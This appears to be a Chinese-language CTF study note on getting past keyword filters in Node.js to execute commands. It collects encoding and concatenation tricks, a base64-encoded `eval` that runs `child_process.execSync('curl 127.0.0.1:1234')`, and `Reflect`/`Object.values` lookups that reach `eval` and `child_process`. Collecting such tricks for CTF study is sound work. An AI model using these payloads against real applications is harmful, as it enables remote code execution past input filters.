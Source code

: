 - 总体思路和SSTI相似
- [[CTF/JS/弱类型]]
- # 关键字
	- 16进制编码
		- ```js
		  console.log("a"==="\x61");
		  ```
	- unicode编码
		- ```js
		  console.log("\u0061"==="a");
		  ```
	- 加号拼接
	- 模板字符串
		- ```js
		  var s = `${'fl'}ag`
		  ```
	- concat连接
		- ```js
		  "exe".concat("cSync")
		  ```
	- base64编码
		- ```js
		  eval(Buffer.from('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZCgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCJjdXJsIDEyNy4wLjAuMToxMjM0Iik=','base64').toString())
		  ```
- # 取属性
	- Object.values
		- ```js
		  Object.values(require('child_process'))[5]('curl 127.0.0.1:1234')
		  ```
	- Refrect
		- ```js
		  console.log(Reflect.ownKeys(global))
		  //返回所有函数
		  console.log(global[Reflect.ownKeys(global).find(x=>x.includes('eval'))])
		  //拿到eval
		  ```
- # 参考
	- https://www.anquanke.com/post/id/237032